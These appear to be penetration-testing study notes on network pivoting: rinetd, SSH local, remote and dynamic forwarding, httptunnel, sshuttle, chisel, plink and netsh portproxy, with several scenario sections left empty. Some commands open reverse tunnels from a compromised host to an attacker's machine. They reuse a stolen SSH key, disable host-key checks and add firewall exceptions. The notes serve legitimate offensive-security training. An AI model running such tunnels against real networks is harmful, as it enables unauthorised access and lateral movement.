









>[!summary]
>Pivoting is made up by two concepts: **port redirection** and **tunneling**

# Port Forwarding

>[!tip]
>Port forwarding is the simplest traffic manipulation technique we will examine in which we redirect traffic destined for one IP address and port to another IP address and port.

## RINETD (Linux)

```bash
kali@kali:~$ sudo apt install rinetd

kali@kali:~$ cat /etc/rinetd.conf
...
# bindaddress   bindport    connectaddress    connectport
0.0.0.0 		80 			216.58.207.142 		80 			# Example
...
```

Scenario 1:
Linux client: no connection on internet
Web server: connected to Linux (port 80) and Internet (port 80)
On the web server: rinet which forward traffic form Linux client (port 80) on Internet (port 80)



Scenario 2:




---

# Tunneling (Linux)

>[!tip]
>Tunneling a protocol involves encapsulating it within a different protocol. By using various tunneling techniques, we can carry a given protocol over an incompatible delivery network, or provide a secure path through an untrusted network.

## SSH Local Port Forwarding

SSH local port forwarding allows us to tunnel a local port to a remote server using SSH as the transport protocol. The effects of this technique are similar to rinetd port forwarding, with a few twists.

*Forward local port to remote address*

```bash
ssh -N -L [bind_address:]port:host:hostport [username@address]
```

Scenario 1:



```bash
kali@kali:~$ sudo ssh -N -L 0.0.0.0:445:w.x.y.z:445 student@s.t.u.v
student@10.11.0.128's password:
```

Scenario 2:



## SSH Remote Port Forwarding

The remote port forwarding feature in SSH can be thought of as the reverse of local port forwarding, in that a port is opened on the remote side of the connection and traffic sent to that port is forwarded to a port on our local machine (the machine initiating the SSH client).

*Forward remote port to local address*

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]
```

Scenario 1:



```bash
student@debian:~$ ssh -N -R a.b.c.d:2221:127.0.0.1:3306 kali@a.b.c.d
kali@10.11.0.4's password:
```


## SSH Dynamic Port Forwarding

SSH dynamic port forwarding allows us to set a local listening port and have it tunnel incoming traffic to any remote destination through the use of a proxy.

```bash
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```

Scenario 1:



```bash
kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
student@10.11.0.128's password:

kali@kali:~$ cat /etc/proxychains.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 8080
```

Scenario 2:



## SSH Dynamic Reverse Tunnel

```bash
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4

kali@kali:~$ cat /etc/proxychains.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 1080
```

By not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali server (only newer version of SSH). Then it is possible to use [proxychains](../Tools/proxychains.md) to send the network traffic through the SSH tunnel

## SSH non-interactive tunnel

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.209
```

`-N`: no commands
`-f`: go in background
`-i`: use the specified key
`-o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"`: do not prompt for known hosts

## HTTP Tunneling (httptunnel)

Certain deep packet content inspection devices may only allow specific protocols. If, for example, the SSH protocol is not allowed, all the tunnels that relied on this protocol would fail.

Scenario:



1. Internal local port forwarding using the compromised machine as pivot:
    
    ```bash
    www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
    ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
    Could not create directory '/var/www/.ssh'.
    The authenticity of host '127.0.0.1 (127.0.0.1)' can not be established.
    ECDSA key fingerprint is SHA256:RdJnCwlCxEG+c6nShI13N6oykXAbDJkRma3cLtknmJU.
    Are you sure you want to continue connecting (yes/no)? yes
    yes
    Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
    student@127.0.0.1's password: lab
    ...
    ```
    
2. Setup the HTTP Server which forward the traffic to the pivot port
    
    ```bash
    student@debian:~$ hts --forward-port localhost:8888 1234
    hts --forward-port localhost:8888 1234
    ```
    
3. Setup the HTTP Client on the attacker machine
    
    ```bash
    kali@kali:~$ htc --forward-port 8080 10.11.0.128:1234
    htc --forward-port 8080 10.11.0.128:1234
    ```


## VPN through SSH (sshuttle)

[sshuttle](../Tools/sshuttle.md)

```bash
kali@kali:~$ sshuttle -r user@192.168.1.123 10.11.1.0/24
```

## Reverse socks proxy (chisel)

[chisel](../Tools/chisel.md)

```bash
$ chisel server --port $PORT --proxy http://example.com
# listens on $PORT, proxy web requests to http://example.com

$ chisel client https://chisel-demo.herokuapp.com 3000
# connects to chisel server at https://chisel-demo.herokuapp.com,
# tunnels your localhost:3000 to the server's localhost:3000
```

# Tunneling (Windows)

## PLINK.exe

Remote Tunneling:
Forward remote port to local address

```powershell
plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

Remote Tunneling from a non-interactive shell:

```powershell
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```

## NETSH

1. Needs SYSTEM privileges
2. Needs *IP Helper* service running
3. Needs IPv6 support enabled

```powershell
# Verify IP Helper is running
Get-Service iphlpsvc

# List rules
netsh interface portproxy show all

# Add port forward (listen on 0.0.0.0:10100 and redirects to 127.0.0.1:10099)
netsh interface portproxy add v4tov4 listenport=10100 listenaddress=0.0.0.0 connectport=10099 connectaddress=127.0.0.1
C:\Users\mbrol>netstat -at |  findstr 100
  TCP    0.0.0.0:10100          0xbro_Legion:0         LISTENING       InHost
  TCP    127.0.0.1:10099        0xbro_Legion:0         LISTENING       InHost

# Remote port forward
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110


# Add firewall rule
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow		# Enable Rule on the Firewall

# Delete rule
netsh interface portproxy delete v4tov4 listenport=10099 listenaddress=127.0.0.1
# Delete all rules
netsh interface portproxy reset
```

## HTTP Tunneling (stunnel)